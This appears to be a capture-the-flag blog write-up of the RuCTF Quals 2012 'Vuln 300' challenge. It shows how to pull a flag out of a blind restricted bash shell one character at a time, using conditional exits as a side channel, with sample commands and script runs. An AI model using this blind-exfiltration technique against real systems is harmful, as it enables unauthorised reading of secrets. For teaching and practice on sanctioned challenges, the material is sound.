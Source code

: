 ```yaml
---
title: "RuCTF Quals 2012: Vuln 300"
categories: ctf
layout: post
---
```


    $ nc aloneinthedark.quals.ructf.org 3255
    Mighty Bash is restricted and blinded. But it still can obtain the power!

This problem presents a "blinded" bash shell -- you can submit commands, which are executed, but you don't get to read their output.

We found that there was, however, a way to get information out -- if you terminate the shell, the underlying TCP connection is closed.

    $ nc aloneinthedark.quals.ructf.org 3255
    Mighty Bash is restricted and blinded. But it still can obtain the power!
    exit
    $

And you can make that exit conditional, as long as you only use bash builtins:

    $ nc aloneinthedark.quals.ructf.org 3255
    Mighty Bash is restricted and blinded. But it still can obtain the power!
    [ -d fnord ] && exit
    [ -d . ] && exit
    $

Well, then!  We can exfiltrate the flag out, bit by bit.  The basic idea is this:  Execute a command; store its output in a variable; check to see if the character at a certain index of that output is equal to a guessed character.

    $ nc aloneinthedark.quals.ructf.org 3255
    Mighty Bash is restricted and blinded. But it still can obtain the power!
    out="$(echo *)"
    [ "A" == "${out:0:1}" ] && exit
    [ "B" == "${out:0:1}" ] && exit
    [ "C" == "${out:0:1}" ] && exit
    [ "D" == "${out:0:1}" ] && exit
    [ "E" == "${out:0:1}" ] && exit
    [ "F" == "${out:0:1}" ] && exit
    $

We wrote a [quick and dirty script to automate this][lol.py].  And, after many minutes of waiting, we had our flag:

    $ python lol.py "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz ._-+" 'out="$(echo *)"'
    FLAG_NOGUESSING bin lib64 lost+found
    $ python lol.py "0123456789abcdef" "read out < FLAG_NOGUESSING"
    7c2b867e94f75bcb9a8e9cdf67e7a334

Of course, it turns out that there was a [much more straight-forward way][omfg] -- but hey, a flag's a flag, right?

[lol.py]: /postfiles/2013-03-13-ructf-quals-vuln-300/lol.py
[omfg]: http://peterpen-ctf.net/?p=476